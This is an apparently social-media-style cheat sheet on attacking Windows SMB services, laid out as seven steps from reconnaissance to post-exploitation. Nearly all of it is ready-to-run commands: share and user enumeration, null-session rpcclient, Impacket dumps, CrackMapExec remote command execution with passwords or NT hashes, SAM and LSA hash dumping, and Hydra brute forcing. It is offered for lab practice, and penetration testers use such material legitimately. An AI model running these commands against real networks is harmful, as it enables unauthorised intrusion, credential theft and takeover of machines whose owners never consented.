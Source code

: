 # SMB Exploitation — Cheat Sheet

✨ *Link for the full article in the first comment*

Ever wondered how hackers can steal files, upload malware, or even take full control of a Windows network without touching a single USB stick? The answer often lies in one of the oldest - yet still dangerously common - protocols: **SMB**.  

This cheat sheet summarizes real SMB hacking techniques — from reconnaissance to full system compromise — with ready-to-use commands you can test in your own lab.

---

## 🔍 Step 1: Enumerating SMB Services

### Identify Open SMB Ports
```bash
nmap -p 139,445 <IP>
nmap -p 139,445 --script smb-os-discovery,smb-enum-shares,smb-enum-users <target-ip>
```

### Full Enumeration with enum4linux
```bash
enum4linux -a <target_ip>
```

### Identify SMB Version
**Metasploit:**
```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS <target_ip>
run
```
**Custom script:**
```bash
./smbver.sh <target_ip> {port}
```

---

## 📂 Step 2: Dumping SMB Information

### Using enum4linux & enum4linux-ng
```bash
enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>
```

### Using Nmap
```bash
nmap --script "safe or smb-enum-*" -p 445 <IP>
```

### rpcclient
```bash
rpcclient -U "" -N <IP>
rpcclient -U "username%passwd" <IP>
```

### Impacket
```bash
samrdump.py -port 139,445 [[domain/]username[:password]@]<target>
rpcdump.py -port 135,139,445 [[domain/]username[:password]@]<target>
```

---

## 👥 Step 3: Enumerating Users & Groups

```bash
crackmapexec smb <IP> --users
crackmapexec smb <IP> --groups
crackmapexec smb <IP> --groups --loggedon-users
```

**LDAP Enumeration:**
```bash
ldapsearch -x -b "DC=DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))" -h <IP>
```

**Metasploit SID Lookup:**
```bash
use auxiliary/scanner/smb/smb_lookupsid
set RHOSTS domain.local
run
```

---

## 📁 Step 4: Shared Folder Enumeration

### List Shares
```bash
smbclient --no-pass -L //<IP>
smbmap -H <IP>
crackmapexec smb <IP> --shares
```

### Connect to Shares
```bash
smbclient //<IP>/<Folder> -U 'username%passwd'
smbmap -u "user" -p "pass" -R [Folder] -H <IP>
```

---

## 💻 Step 5: Exploitation with CrackMapExec

Install:
```bash
apt-get install crackmapexec
```

Execute commands:
```bash
crackmapexec smb <IP> -u Administrator -p 'password' -x whoami
crackmapexec smb <IP> -u Administrator -H <NTHASH> -x whoami
```

Dump hashes & users:
```bash
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users
```

---

## 🔑 Step 6: Brute Forcing SMB

**Nmap:**
```bash
nmap --script smb-brute -p 445 <IP>
```

**Hydra:**
```bash
hydra -l Administrator -P wordlist.txt <IP> smb -t 1
```

---

## 📜 Step 7: Post-Exploitation

Check configs:
```bash
cat /etc/samba/smb.conf
smbstatus
```

Dump sessions and policies:
```bash
crackmapexec smb <IP> -u Administrator -p 'password' --sessions
crackmapexec smb <IP> -u Administrator -p 'password' --pass-pol
```

---

## References
- EternalBlue (CVE-2017–0144) exploit background  
- Impacket tools: https://github.com/fortra/impacket  
- CrackMapExec: https://github.com/byt3bl33d3r/CrackMapExec  
